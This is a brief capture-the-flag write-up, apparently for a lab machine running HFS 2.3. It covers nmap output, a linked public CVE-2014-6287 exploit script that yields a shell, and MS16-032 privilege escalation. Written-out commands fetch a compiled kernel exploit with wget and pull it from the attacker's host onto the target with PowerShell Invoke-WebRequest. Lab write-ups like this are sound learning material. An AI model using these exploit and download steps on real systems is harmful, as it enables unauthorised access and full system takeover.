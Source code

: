 ## Foothold
*nmap*

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 16:28 EEST
Nmap scan report for 10.10.10.8
Host is up (0.075s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Port 80 timeeee  
![[Pasted image 20210428163007.png]]
Lots of this to check :(  
When trying to login , and failing we see something interesting :  
![[Pasted image 20210428163106.png]]
hmmm  
![[Pasted image 20210428163132.png]]
Hehe  
## User
We use the https://github.com/roughiz/cve-2014-6287.py (do not forget to run it with sudo )  
And get a  shell :  
![[Pasted image 20210428164215.png]]
## Root 
![[Pasted image 20210428164324.png]]
We find the version of the win , search it on the internet and find an exploit :
![[Pasted image 20210428173345.png]]
We will use the compiled version : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032/x64
```bash
wget https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-032/x64/ms16-032.exe
```
Get the exploit on the other machine 
![[Pasted image 20210428174011.png]]
```bash
powershell.exe -c "Invoke-WebRequest -Uri http://10.10.14.7/ms16-032.exe -OutFile C:\Users\kostas\Desktop\ms16-032.exe
```
Run the exploit annnd get root :D 
PS outttttt
